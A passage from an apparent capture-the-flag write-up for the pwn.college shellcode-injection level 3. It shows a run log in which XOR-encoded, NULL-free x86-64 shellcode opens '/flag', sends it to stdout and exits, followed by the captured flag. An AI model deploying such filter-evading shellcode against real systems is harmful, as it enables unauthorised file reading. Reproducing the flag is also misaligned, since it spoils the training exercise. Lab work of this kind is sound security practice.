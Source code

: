 In the next set we first make rdi 0 with our xoring operations. We then store 1 in ``dil`` which is the lower part of our rdi register hence not causing nullification for other parts. We then get the returned value of ``rax`` and put it int rsi. We then make rdx 0 before setting the argument for number of stuff to print which we set as 230 in the lower 8 bits of rdx before making the syscall.


Finally we just exit :D

```shell
hacker@shellcode-injection~level3:~$ python3 script.py
[+] Starting local process '/challenge/babyshell-level-3': pid 2617
[*] Switching to interactive mode
###
### Welcome to /challenge/babyshell-level-3!
###

This challenge reads in some bytes, modifies them (depending on the specific challenge configuration), and executes them
as code! This is a common exploitation scenario, called `code injection`. Through this series of challenges, you will
practice your shellcode writing skills under various constraints! To ensure that you are shellcoding, rather than doing
other tricks, this will sanitize all environment variables and arguments and close all file descriptors > 2.

Mapped 0x1000 bytes for shellcode at 0x22920000!
Reading 0x1000 bytes from stdin.

Executing filter...

This challenge requires that your shellcode have no NULL bytes!

This challenge is about to execute the following shellcode:

      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x0000000022920000 | 48 bb 01 01 01 01 01 01 01 01                 | movabs rbx, 0x101010101010101
0x000000002292000a | 53                                            | push rbx
0x000000002292000b | 48 bb 2e 67 6d 60 66 01 01 01                 | movabs rbx, 0x1010166606d672e
0x0000000022920015 | 48 31 1c 24                                   | xor qword ptr [rsp], rbx
0x0000000022920019 | 48 31 c0                                      | xor rax, rax
0x000000002292001c | b0 02                                         | mov al, 2
0x000000002292001e | 48 31 f6                                      | xor rsi, rsi
0x0000000022920021 | 48 89 e7                                      | mov rdi, rsp
0x0000000022920024 | 0f 05                                         | syscall 
0x0000000022920026 | 48 31 ff                                      | xor rdi, rdi
0x0000000022920029 | 40 b7 01                                      | mov dil, 1
0x000000002292002c | 48 89 c6                                      | mov rsi, rax
0x000000002292002f | 48 31 d2                                      | xor rdx, rdx
0x0000000022920032 | b0 28                                         | mov al, 0x28
0x0000000022920034 | 41 b2 e6                                      | mov r10b, 0xe6
0x0000000022920037 | 0f 05                                         | syscall 
0x0000000022920039 | 48 31 c0                                      | xor rax, rax
0x000000002292003c | b0 3c                                         | mov al, 0x3c
0x000000002292003e | 0f 05                                         | syscall 

Executing shellcode!

pwn.college{UiWTsMYhvLN_BFxzmNufd0WZv_e.0VOxIDL4czN0czW}
[*] Process '/challenge/babyshell-level-3' stopped with exit code 1 (pid 2617)
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
```

